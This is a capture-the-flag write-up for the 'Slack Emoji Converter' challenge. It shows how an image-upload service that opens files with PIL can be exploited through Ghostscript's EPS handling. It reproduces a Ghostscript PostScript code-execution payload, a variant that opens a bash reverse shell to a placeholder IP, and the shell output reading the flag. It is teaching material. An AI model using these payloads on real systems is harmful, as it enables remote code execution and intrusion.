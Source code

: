 # Slack Emoji Converter

## Setup

For this problem, we are given a surprisingly basic website. It allows you to upload an image, and it returns a rescaled image with the same contents but suitable for a slack emoji. Upon poking at the client source, we notice a commented out link for `/source`. Upon navigation, we see the python source code for this problem.

## Analysis

The actual problem itself is surprisingly simple. The total source is under 50 lines of python, and a lot of that is boilerplate. The only interesting lines are these

```python
@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response
```

At first glance, this seems relatively safe. All it does is save the image from the file handler, then load it into PIL. Then, once PIL has it, it resizes the image, saves it again and then reads it as binary and serves it in the response. While the file passing around seems odd at first, its worth noting that PIL doesn't obviously support loading and saving images from buffers. In reality, this can be done using BufIO, but it is not unusual to see hacks like these in the wild. 

The other interesting thing is that the filename gets directly injected into the `Content-Disposition` header. While this ultimately is not useful in the context of this problem, that does allow a slight injection with regard to the resulting service name. However, since it only affects the client, it is probably not super useful here.

Going back to the weird saving and loading of the image, we should look at how PIL loads images. Specifically, how it chooses the decoder for them. Although you could read through the source to try and figure this out, a simple Google search for `pil rce` yields a number of vulnerabilities related to the EPS decoder. When trying to open an EPS image, PIL invokes something called Ghostscript that parses the file and generates the image. Unfortunately for PIL (but fortunately for us), Ghostscript is notorious for its bugs. In fact, just over a week ago Tavis Ormandy [tweeted](https://twitter.com/taviso/status/1031887543233478656) out details of some new code execution pathways.

For the purposes of this problem, lets look at one of the ones he found.


```postscript
%!PS-Adobe-2.0
%%BoundingBox: -0 -0 1000 1000

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

When loaded by Ghostscript, this file runs the `id` command. Well if we swap out that `id` command with a reverse shell, we should have complete control! Let's try it

```postscript
%!PS-Adobe-2.0
%%BoundingBox: -0 -0 1000 1000

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/12345 0>&1') currentdevice putdeviceprops
```

```bash
emoji@emoji-57f556ff55-92ww8:/srv/emoji$ ls
app.py
templates
uwsgi.ini
emoji@emoji-57f556ff55-92ww8:/srv/emoji$ cat /flag
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```

And there we have it, a nice clean flag